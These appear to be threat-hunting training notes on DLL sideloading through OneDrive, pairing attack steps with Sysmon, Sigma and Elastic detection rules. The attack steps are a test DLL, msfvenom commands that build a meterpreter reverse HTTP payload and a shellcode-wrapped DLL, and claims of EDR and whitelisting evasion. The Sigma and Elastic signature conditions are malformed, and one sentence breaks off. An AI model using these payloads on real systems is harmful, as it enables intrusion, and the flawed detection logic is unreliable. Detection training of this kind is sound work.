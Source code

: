 # DLL Hijacking/Sideloading

> WHAT ARE DLLs : At its core, a Dynamic Link Library (DLL) is a file containing code and data that multiple programs can use simultaneously. DLLs are a crucial component in the Windows operating system because Windows heavily relies on them for pretty much anything. Think of it as a shared repository of functionality, accessible to any application that needs it. Unlike static libraries, which are integrated into an application at compile time, DLLs are loaded into memory at runtime, providing a level of flexibility and modularity that is essential for software integrity. Each process started on Windows uses DLLs in order to operate properly. Additionally, DLLs can be also custom made, which means that for different software vendors, dedicated DLLs can be encountered. Usually they are programmed in C/C++, however, this is not the only option. 

> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

> Additionally, DLL Hijacking bypasses application whitelisteng (applocker/WDAC) and breaks the EDR execution chain, as the DLL is loaded by a signed microsoft executable (i.e. Onedrive), dns/http requests are no longer abnormal

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE h, DWORD r, LPVOID p) {
    if (r == DLL_PROCESS_ATTACH) {
        MessageBoxW(NULL, L"DLL sideload successful!", L"Debug", MB_OK | MB_ICONINFORMATION);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

- writeable by all users
- hijackable

> EXPORTS -> use exported functions in your dll (csharp dll's don't have a dllmain function)

### 1. NIRSOFT ddlexport viewer

![image](./images/dll_exportviewer.jpg)

### 2. ROHITAB API Monitor
![image](./images/dll_apimon.jpg)

### 3. SYSINTERNALS Process Monitor
![image](./images/dll_procmon.jpg)

### 4. DUMPBIN (Visual Studio)

Check which function onedrive actually imports from VERSION.dll

Open a visual studio developer prompt:

![image](./images/dll_devprompt.jpg)

```bash
cd C:\Users\Threatadmin\AppData\Local\Microsoft\OneDrive
dumpbin OneDrive.exe /imports:VERSION.dll
```
![image](./images/dll_dumpbin.jpg)


# AUTOMTING DLL Sideloadble applications
<https://github.com/Cybereason/siofra>

![image](./images/dll_siofra.jpg)


<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)

# C dll

building your dll

<https://github.com/Pascal-0x90/sideloadr>
<https://github.com/Pascal-0x90/sideloadr/compare/master...WS-G:sideloadr:master>


```bash
rundll32 shell32.dll,Control_RunDLL c:\thev\labs\DLL_Sideloading\version.dll
```

LoaderLock!!!

<https://www.prodefense.io/blog/dll-sideloading>

# Evasion Code Execution

Make sure OneDrive Last released build 25.070.0413.0001 is installed <https://go.microsoft.com/fwlink/?linkid=844652>
```bash
cat demon.x64.bin | msfvenom -p - -a x64 --platform windows -f dll -o cscapi.dll
```

STAGELESS PAYLOAD

```bash
msfvenom -p windows/x64/meterpreter_reverse_http lhost=10.0.0.5 lport=80 -f csharp
```

![Screenshot](./images/codeexec_medr.jpg)

# BYOB (Bring Your own Binary)
OLEVIEW

# DETECTION

Use sysmon to look for loading of known system32/syswow dll's that are :
- not signed
- not loaded from their usual locaction (system32/syswow)

<https://github.com/TactiKoolSec/SideLoadHunter>

```yaml
  <RuleGroup name="OneDrive_Sideload_Attempt" groupRelation="or">
    <ImageLoad onmatch="include">
      <Image condition="contains">onedrive.exe</Image>
      <ImageLoaded condition="contains">version.dll</ImageLoaded>
      <Signature condition="is not">Microsoft Windows</Signature>
    </ImageLoad>
  </RuleGroup>
```

Open ELEX (or eventviewer):

![image](./images/dll_hijack_elex.jpg)


>Custom detection rules for known Windows DLLs being loaded from non Windows path’s such as System32 could also be used to identify DLL Sideloading attacks. Doing this for non Windows DLLs however is not that easy, as there are too many different vendors and binaries/DLLs to track all of them.

OK Great - but ***are you collecting all those noisy logs*** (dll load events are super noisy) in your SIEM, probobly not as they are already in your EDR logs, hopefully.

SO now we need to write queries for SentinelOne, Crowdstrike, PAN Cortex etc... This can be very annoying, so let's standardize our signatures, so we can use them on any platform.

SIGMA!!!

```yaml
title: OneDrive Version.dll Sideload Attempt
id: a9ab91a8-f50c-48e8-8478-17e119eed9c0 # can be generated with https://www.uuidgenerator.net/version4
author: Threathunting Academy
date: 2025/06/06
modified: 2025/06/06
status: experimental 
logsource:
  product: windows
  category: image_load
  service: sysmon
detection:
  selection_image:
    Image|contains: 'onedrive.exe'
  selection_loaded_dll:
    ImageLoaded|contains: 'version.dll'
  selection_signature:
    Signature|contains: -'Microsoft Windows'
  condition: all of them
falsepositives:
  - Unknown. This rule is designed to be highly specific.
level: high
tags:
  - attack.defense_evasion
  - attack.t1574.001 # DLL Side-Loading
  - attack.t1574.002 # DLL Search Order Hijacking
  ```

<https://sigconverter.io/>

Here's our ELASTIC query (as an example backend)


![image](./images/dll_hijack_sigma.jpg)

```powershell
from * metadata _id, _index, _version | where Image like "*onedrive.exe*" and ImageLoaded like "*version.dll*" and Signature like "*-'Microsoft Windows'*"
```

> UHOH : We don't have the logs in our SIEM, nor in our EDR solution's datalake - now what? Well we can still find logs on the endpoint (if the logs haven't rolled over), how do we get those logs remotely off of that endpoint (and preferably without exporting ALL eventlogs)?

VELOCIRAPTOR can do this, and integrates with Sigma

<https://sigma.velocidex.com/docs/sigma_in_velociraptor/customize/>

